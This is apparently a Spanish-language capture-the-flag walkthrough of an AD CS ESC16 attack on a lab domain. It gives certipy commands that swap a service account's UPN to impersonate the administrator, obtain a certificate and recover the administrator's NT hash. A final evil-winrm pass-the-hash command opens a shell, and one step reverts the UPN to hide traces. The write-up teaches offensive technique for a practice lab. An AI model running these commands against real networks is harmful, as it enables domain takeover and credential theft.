
Como vemos nos dice que es vulnerable a ESC16 por lo que vamos a ejecutar el ataque:

El ataque ESC16 se basa en que la CA no valida el SID único del usuario, sino que confía en el atributo UPN. Usamos nuestro permiso de escritura sobre ca_svc para cambiar su nombre de inicio de sesión a administrator.
``certipy-ad account update -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -user 'ca_svc' -upn 'administrator' -dc-ip 10.129.7.213``

Con el UPN modificado, solicitamos un certificado a la CA. La CA verá que ca_svc (quien tiene permisos) está pidiendo un certificado, pero al generar el documento, leerá el UPN actual y lo emitirá a nombre de administrator
``certipy-ad req -u 'administrator' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -ca 'fluffy-DC01-CA' -template 'User' -target 10.129.7.213``

Una vez obtenido el archivo .pfx (nuestra llave maestra), debemos devolver la cuenta ca_svc a su estado original para evitar inestabilidad en el dominio y reducir el rastro.
``certipy-ad account update -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -user 'ca_svc' -upn 'ca_svc@fluffy.htb' -dc-ip 10.129.7.213``

El archivo .pfx contiene la clave privada. Lo usamos para realizar una autenticación Kerberos (PKINIT) contra el DC. Al ser una autenticación basada en certificados, el DC incluye el NT Hash del usuario en el ticket por compatibilidad.
``certipy-ad auth -pfx 'administrator.pfx' -dc-ip 10.129.7.213 -username 'administrator' -domain 'fluffy.htb'``


Finalmente, con el hash del Administrador del Dominio, utilizamos evil-winrm para obtener una shell interactiva usando pth.
``evil-winrm-py -i 10.129.7.213 -u 'Administrator' -H '8da83a3fa618b6e3a00e93f676c92a6e'``
